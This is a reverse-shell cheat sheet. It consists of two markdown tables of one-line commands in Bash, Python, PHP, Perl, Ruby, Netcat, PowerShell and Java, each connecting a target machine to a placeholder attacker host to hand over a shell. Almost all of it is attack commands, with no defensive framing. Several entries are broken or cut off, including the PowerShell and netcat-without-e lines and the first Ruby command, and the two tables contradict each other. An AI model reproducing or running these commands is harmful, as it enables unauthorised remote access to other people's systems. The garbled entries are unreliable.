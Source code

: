 | **Language/Tool** | **Reverse Shell Command** | **Notes** |
| --- | --- | --- |
| **Bash** | `bash -i >& /dev/tcp/<attacker_IP>/<port> 0>&1` | Simple Bash reverse shell. |
| **Python** | `python -c 'import socket,os,pty; s=socket.socket(); s.connect(("<attacker_IP>",<port>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/bash")'` | Requires Python on the target system. |
| **Python3** | `python3 -c 'import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<attacker_IP>",<port>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/bash")'` | Updated for Python3 syntax. |
| **PHP** | `php -r '$sock=fsockopen("<attacker_IP>",<port>); exec("/bin/sh -i <&3 >&3 2>&3");'` | Requires PHP installed on the target. |
| **Perl** | `perl -e 'use Socket; $i="<attacker_IP>"; $p=<port>; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); connect(S,sockaddr_in($p,inet_aton($i))); open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");'` | Works with systems that have Perl installed. |
| **Ruby** | `ruby -rsocket -e 'exit if fork; s=TCPSocket.new("<attacker_IP>",<port>); loop { c=TCPSocket.new("<attacker_IP>",<port>); IO.copy_stream(c, s); IO.copy_stream(s, c) }'` | Requires Ruby installed on the target. |
| **Netcat** | `nc -e /bin/bash <attacker_IP> <port>` | Works if Netcat supports the `-e` flag. |
| **Netcat (Without -e)** | `mkfifo /tmp/f; nc <attacker_IP>  < /tmp/f | /bin/bash > /tmp/f` |
| **PowerShell** | `powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<attacker_IP>",);$stream = $client.GetStream();[byte[]]$bytes = 0..65535 | %{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |
| **Java** | `java -cp . ReverseShell <attacker_IP> <port>`  *(Java Code Required)* | Requires a compiled Java program for reverse shell (code can be written in a file and compiled). |

---

### **One-Liner Reverse Shells**

| **Language/Tool** | **One-Liner Reverse Shell Command** |
| --- | --- |
| **Bash** | `bash -i >& /dev/tcp/<attacker_IP>/<port> 0>&1` |
| **Python** | `python -c 'import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<attacker_IP>",<port>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/bash")'` |
| **PHP** | `php -r '$sock=fsockopen("<attacker_IP>",<port>); exec("/bin/sh -i <&3 >&3 2>&3");'` |
| **Perl** | `perl -e 'use Socket; $i="<attacker_IP>"; $p=<port>; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); connect(S,sockaddr_in($p,inet_aton($i))); open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");'` |
| **Ruby** | `ruby -rsocket -e 'exit if fork; s=TCPSocket.new("<attacker_IP>",<port>); exec "/bin/sh -i"'` |
| **Netcat** | `nc -e /bin/bash <attacker_IP> <port>` |
| **Netcat (Without -e)** | `mkfifo /tmp/f; nc <attacker_IP>  < /tmp/f |
| **PowerShell** | `powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<attacker_IP>",<port>);` |

---
 
